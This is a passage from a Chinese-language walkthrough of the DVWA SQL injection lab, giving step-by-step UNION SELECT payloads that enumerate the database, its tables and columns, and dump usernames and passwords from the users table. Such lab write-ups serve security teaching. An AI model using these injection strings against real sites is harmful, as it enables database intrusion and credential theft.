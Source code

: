     说明这里执行的SQL语句为：

    ```sql
    select `First name`,`Surname` from 表名 where ID=id;
    ```

6.  输入” 1'union select 1,database()# “获取当前数据库名

    ![si9](/images/dvwa2/si9.jpg)

    输入” 1'union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()# “获取当前数据库的表

    ![si10](/images/dvwa2/si10.jpg)

    输入” 1'union select 1,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'# “获取users表中的字段名

    ![si11](/images/dvwa2/si11.jpg)

    输入” 1'union select 1,group_concat(user_id,user,password) from users “获取users表中字段user_id、user、password的内容

    ![si12](/images/dvwa2/si12.jpg)
